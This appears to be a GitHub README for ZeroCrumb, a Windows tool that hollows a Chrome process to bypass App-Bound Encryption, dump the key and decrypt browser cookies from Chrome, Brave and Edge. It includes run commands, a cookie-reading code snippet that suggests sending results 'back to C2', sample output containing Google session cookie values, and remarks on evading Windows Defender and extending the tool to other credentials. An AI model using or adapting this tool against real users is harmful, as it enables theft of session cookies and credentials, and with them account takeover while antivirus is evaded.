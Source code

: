 
# ZeroCrumb

Bypassing Chrome Elevation Service (Without UAC) To Dump App Bound Keys & Decrypt Cookies.

## Explanation

ZeroCrumb bypasses the Chrome Elevation Service by impersonating a Chrome instance using [Transacted Hollowing](https://github.com/hasherezade/transacted_hollowing/), Effectively allowing us to use the IElevator COM interface to decrypt the App Bound Key.

Then, The key dumper running the in the hollowed chrome instance will send the decrypted key back to ZeroCrumb via a [Named Pipe](https://learn.microsoft.com/en-us/windows/win32/ipc/named-pipes).

After this, ZeroCrumb decrypts the cookies for the specified browser with the key fetched earlier.

## Merits With The Named Pipe Approach
Usage of named pipes in ZeroCrumb allows any program, As long as it can use the Windows API, To connect to the ZeroCrumb named pipe and read the App Bound Key from it. 

## Using ZeroCrumb As A Library
If you want to use ZeroCrumb as a library, You will need to compile a DLL that exports a function that does the hollowing of chrome with the key dumper. You might also need to embed the key dumper PE in the .rsrc section of the compiled DLL and later fetch it with the application resources Windows APIs.

## Usage
You can run this in any directory of your choice as long as the key dumper is in the same directory.
```
ZeroCrumb.exe <BROWSER_TYPE>
```
```
Browser Types:
Chrome -> 0
Brave -> 1
Edge -> 2
```

## Code Usage
ZeroCrumb provides an easy-to-use **CookieReader** class:
```cpp
    auto reader = new CookieReader(cookiesPath.c_str(), key);

    reader->initSqliteDb();
    reader->prepare(queries::cookies);
    reader->populateCookies();
    
    for (auto& cookie : reader->cookies) {
        string name = cookie->name;
        string site = cookie->site;
        string path = cookie->path;
        string cookieValue = cookie->cookie;
        // dump to file, send back to C2, etc...
    }
```

## Depedencies
ZeroCrumb requires two [Vcpkg](https://vcpkg.io/) dependencies:
```
sqlite3
libsodium
```

## Output Example
```
$ ZeroCrumb.exe 0
[*] Reading From Pipe...
App Bound Key: 980f8ea8af3299d966a26242.....
============
Name: SIDCC
Site: .google.com
Path: /
Cookie: AKEyXzXxD19T0KLMkrMC-eUXkrnEFi92OXq6rj1vydvmdL73olBVQGRQ4cG_hK5sqPhO1rLd1CM
============
Name: __Secure-1PSIDCC
Site: .google.com
Path: /
Cookie: AKEyXzXXC8_MNDlVbAaw512aXu-QJkl0uKNW66rhjeufotzoJhT3OPN5TuCQnfKS8l57_WGfDw
============
Name: __Secure-3PSIDCC
Site: .google.com
Path: /
Cookie: AKEyXzVVySM4FWl9itegCN2evcSmBvGc7_iXHqkKZ6VYPKmR--_LsHx1Aflar6SU4nyJiDaFq028
============
Name: udid
Site: .veepn.com
Path: /
Cookie: 0dd5b8bb-8c5b-47f3-87f9-1db8fa7d885f
============
```

## Notes
You can modify ZeroCrumb to work with any type of credential other than cookies.

## Issues
- Debug build doesn't output the correct key

## Disclaimer
This is by no means the most stealthy implementation of this bypass, It can get detected by checking for specific strings, hooking APIs, etc.

By the time I'm testing this, It got past Windows Defender but I haven't checked other AVs.

I'll leave making the bypass stealthier as an exercise for the user if this bypass implementation gets signatured in the future.

## Credits
[Transacted Hollowing](https://github.com/hasherezade/transacted_hollowing/) by [hasherezade](https://github.com/hasherezade/).

[App Bound Encryption Decryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption/) by [Xaitax](https://github.com/xaitax/).
